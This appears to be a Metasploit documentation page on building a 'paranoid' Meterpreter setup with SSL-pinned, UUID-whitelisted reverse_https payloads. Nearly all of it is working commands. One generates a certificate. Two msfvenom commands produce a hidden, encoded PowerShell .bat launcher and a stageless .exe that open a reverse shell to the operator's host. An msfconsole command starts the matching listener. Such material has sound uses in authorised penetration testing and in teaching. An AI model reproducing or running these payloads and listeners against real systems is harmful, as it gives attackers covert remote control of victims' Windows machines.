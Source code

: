 In some scenarios, it pays to be paranoid. This also applies to generating and handling Meterpreter sessions. This document walks through the process of implementing a paranoid Meterpreter payload and listener.

### Create a SSL/TLS Certificate

For best results, use a SSL/TLS certificate signed by a trusted certificate authority. Failing that, you can still generate a self-signed unified PEM using the following command:
```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

### Create a Paranoid Payload

For this use case, we will combine [[Payload UUID]] tracking and whitelisting with SSL verification. For a staged payload, we will use the following command:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f psh-cmd -o launch-paranoid.bat

$ head launch-paranoid.bat 
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg...
```

A stageless version of this would look like the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedStageless -f exe -o launch-paranoid-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 885314 bytes
Saved as: launch-paranoid-stageless.exe
```

### Create a Paranoid Listener

```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_https; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```